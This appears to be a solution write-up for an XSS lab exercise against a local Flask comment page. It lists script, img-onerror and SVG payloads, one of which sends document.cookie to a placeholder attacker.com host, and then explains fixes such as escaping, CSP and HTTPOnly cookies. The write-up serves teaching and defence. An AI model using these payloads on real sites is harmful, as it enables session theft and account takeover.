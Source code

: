 # Cross-Site Scripting (XSS) Exercise Solution

## Objective
The objective of this exercise is to demonstrate how Cross-Site Scripting (XSS) vulnerabilities can be exploited and how to prevent them.

## Exploitation
1. Access the XSS Demonstration page at `http://localhost:8081`.
2. In the comment input field, enter the following payload:
   ```html
   <script>alert('XSS');</script>
   ```
3. Submit the comment and observe that the JavaScript executes, displaying an alert box.
4. Try more advanced payloads, such as:
   ```html
   <img src="x" onerror="alert('XSS via image');">
   ```
   or
   ```html
   <svg onload="fetch('http://attacker.com/steal?cookie='+document.cookie)">
   ```

## Explanation
The application is vulnerable to XSS because it directly renders user input without proper sanitization. The `{{ comments|safe }}` in the template explicitly marks the content as safe, bypassing Flask's automatic escaping.

## Prevention
To prevent XSS vulnerabilities, implement the following measures:

1. Input Validation and Sanitization:
   ```python
   from flask import escape

   @app.route('/', methods=['GET', 'POST'])
   def submit_comment():
       if request.method == 'POST':
           comment = request.form.get('comment')
           if comment:
               comments.append(escape(comment))
       return render_template_string(xss_template, comments="<br>".join(comments))
   ```

2. Content Security Policy (CSP):
   Add the following header to your responses:
   ```python
   @app.after_request
   def add_security_headers(resp):
       resp.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'none'"
       return resp
   ```

3. Use Safe Template Rendering:
   Instead of `{{ comments|safe }}`, use `{{ comments }}` to enable automatic escaping.

4. HTTPOnly Cookies:
   Set cookies with the HTTPOnly flag to prevent JavaScript access:
   ```python
   from flask import make_response

   @app.route('/set_cookie')
   def set_cookie():
       resp = make_response("Cookie set")
       resp.set_cookie('session', 'value', httponly=True)
       return resp
   ```

## Additional Prevention Measures
1. Implement input length restrictions to limit the potential for large payloads.
2. Use a Web Application Firewall (WAF) to filter out common XSS patterns.
3. Regularly update and patch all dependencies to protect against known vulnerabilities.
4. Educate developers about secure coding practices and the risks of XSS.

## Conclusion
This exercise demonstrates the dangers of rendering unsanitized user input. Always validate and sanitize user input, use secure template rendering, and implement additional security measures like CSP to protect your applications from XSS attacks.
